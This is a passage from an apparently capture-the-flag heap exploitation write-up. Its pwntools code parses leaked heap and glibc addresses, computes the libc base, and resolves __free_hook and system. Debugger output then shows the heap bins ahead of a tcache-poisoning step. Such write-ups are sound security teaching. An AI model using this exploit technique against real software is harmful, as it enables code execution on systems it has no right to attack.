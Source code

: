 ```python
heap_leak = heap_leak[:heap_leak.find(b',')]
heap_leak = u64(heap_leak.ljust(8, b'\x00'))
print(hex(heap_leak))
glibc_leak = leak[leak.find(b"Bio: ") + len(b"Bio: "):]
glibc_leak = glibc_leak[:glibc_leak.find(b'P')]
glibc_leak = u64(glibc_leak.ljust(8, b'\x00'))
print(hex(glibc_leak))
```

The parsing above splits out the addresses, but those are not necessarily what we care most about. We actually don't need a heap address (but we leak it here because it is relevant for v2.32+), but we do need that glibc address to find `__free_hook` and `system`.

There is seemingly no good way to identify the leaked `main_arena` offset using `pwntools.elf.ELF`, (since it is not an exported symbol) so the easiest strategy for getting the glibc base is finding the current page that `main_arena` is on (`leak ~0xfff`) and subtracting the offset from that page to the libc base address during a debugging run. After that, we can create an `ELF` with this base address to store `system` and `__free_hook`'s addresses:

```python
heap_base = heap_leak & ~0xfff
glibc_base = (glibc_leak & ~0xfff) - 0x1ec000
print(hex(heap_base))
print(hex(glibc_base))

e = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
e.address = glibc_base
free_hook = e.symbols.__free_hook
system = e.symbols.system
```

Now we're set up to poison tcache. For this we need to be mindful of how objects are stored in the current heap layout and how they are fetched when we reallocate. Breaking after the leak, we see the following cache order:

```
gef➤  heap bins
────────────────────────── Tcachebins for thread 1 ──────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x55e372687ba0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55e372687b80, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=1] ←  Chunk(addr=0x55e3726876c0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
──────────────────── Fastbins for arena at 0x7f5bed541b80 ───────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
────────────────── Unsorted Bin for arena at 0x7f5bed541b80 ─────────────────────
[+] unsorted_bins[0]: fw=0x55e3726876e0, bk=0x55e3726876e0
 →   Chunk(addr=0x55e3726876f0, size=0x490, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
```
